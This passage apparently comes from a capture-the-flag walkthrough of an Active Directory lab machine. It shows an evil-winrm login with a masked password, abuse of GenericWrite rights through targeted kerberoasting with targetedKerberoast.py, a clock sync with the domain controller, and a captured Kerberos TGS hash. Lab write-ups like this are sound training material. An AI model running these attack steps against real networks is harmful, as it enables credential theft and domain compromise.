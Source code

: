 The user flag is on emily's desktop
```bash
evil-winrm -i administrator.htb -u emily -p 'U*****************************
```

## Abuse Emily's GenericWrite

Emily has `GenericWrite` on Ethan

![ethan.png](ethan.png)


GetUserSPNs.py did not work
```bash
GetUserSPNs.py \
  -dc-ip 10.10.11.42 \
  -dc-host administrator.htb \
  administrator.htb/emily:U****************************
```

The first attempt at that gives us kerberos clock skew too great
```bash
python targetedKerberoast.py \
  -u "emily" \
  -p "U***************************** \
  -d "administrator.htb" \
  --dc-ip 10.10.11.42
```

Synchronizing time with the domain controller
```bash
sudo systemctl start ntpd
sudo ntpdate -u 10.10.11.42
```

And trying again, this time we get a TGS hash
```bash
python targetedKerberoast.py \
  -u "emily" \
  -p "U***************************** \
  -d "administrator.htb" \
  --dc-ip 10.10.11.42
```
```
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (ethan)
$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$shnip
```
